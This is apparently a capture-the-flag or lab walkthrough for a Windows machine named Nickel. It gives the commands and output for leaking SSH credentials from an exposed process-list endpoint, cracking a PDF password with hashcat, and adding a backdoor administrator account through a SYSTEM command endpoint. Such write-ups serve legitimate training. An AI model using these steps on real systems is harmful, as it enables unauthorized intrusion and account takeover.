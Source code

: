 # Nickel

### Enumeration

```
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
| http-methods: 
|_  Supported Methods: GET POST
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
```

```
$ curl -X POST -d "1" http://192.168.94.99:33333/list-running-procs

commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "[REDACTED-BASE64ENCODED]" --server nickel-dev --protocol ssh
```

### Initial Access

Connect with credentials to SSH.

### PrivEsc

There is a password protected PDF: Infrastructure.pdf

```
$ /usr/share/john/pdf2john.pl Infrastructure.pdf > hash.txt
$ hash.txt
Infrastructure.pdf:$pdf$4*4*128*-1060*1*16*[REDACTED]
```

10500 - PDF 1.4 - 1.6 (Acrobat 5 - 8)

```
$ hashcat -m 10500 -w 4 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Open the PDF with the password.

> Infrastructure Notes
>
> Temporary Command endpoint: http://\[REDACTED]/?

```
PS C:\> $wc = New-Object Net.WebClient
PS C:\> $wc.DownloadString("http://[REDACTED]/?whoami")
<!doctype html><html><body>dev-api started at 2020-10-20T10:38:24

        <pre>nt authority\system
</pre>
</body></html>

PS C:\USers\Administrator> $wc.DownloadString("http://[REDACTED]/?net user cel1s0 pass123 /add")
PS C:\USers\Administrator> $wc.DownloadString("http://[REDACTED]/?net localgroup administrators cel1s0 /add")
```

```
$ xfreerdp /u:cel1s0 /p:pass123 /v:192.168.94.99:3389
```
